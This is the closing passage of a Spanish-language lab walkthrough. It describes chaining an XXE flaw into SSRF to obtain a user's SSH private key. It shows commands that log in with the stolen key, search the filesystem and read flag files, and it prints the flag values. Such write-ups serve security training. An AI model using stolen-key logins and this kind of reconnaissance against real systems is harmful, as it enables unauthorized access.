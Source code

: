 También se revela la identificación de correo electrónico del usuario:

```
david@insecure-corp.com
```

Modifique los permisos del archivo fixed\_id\_rsa y SSH en la máquina de destino:

Comandos:

```
chmod 600 fixed_id_rsa
ssh -i fixed_id_rsa david@demo.ine.local
```

> ¡El inicio de sesión SSH fue exitoso!

Paso 12: Recupera la segunda bandera.

Ahora que tenemos acceso SSH a la máquina de destino, podemos emitir comandos para realizar el reconocimiento y recuperar todas las banderas.

Comandos:

```
id
ls
cat flag1 
find / -iname 'flag*' 2>/dev/null 
```

```
Flag 1 (/home/david/flag1): 5f1210be00b4b8dfecba7b56181d905c
```

La marca 2 se almacena en el archivo /tmp/flag2:

Mandar:

```
cat /tmp/flag2
```

```
Flag 2: 173b0344950d28e8b5dc36dd462edaa9
```

Con esto, concluimos este laboratorio. Hemos aprendido a aprovechar una vulnerabilidad XXE para realizar un ataque SSRF. Usando el ataque SSRF, interactuamos con un servidor HTTP interno, obtuvimos las claves SSH de un usuario y obtuvimos acceso al shell en la máquina de destino.

#### Referencias <a href="#references" id="references"></a>

```
1 - A4:2017-XML External Entities (XXE)
2 - A10:2021 – Server-Side Request Forgery (SSRF)
3 - XML CDATA

1 - https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE)
2 - https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/
3 - https://www.w3resource.com/xml/CDATA-sections.php
```
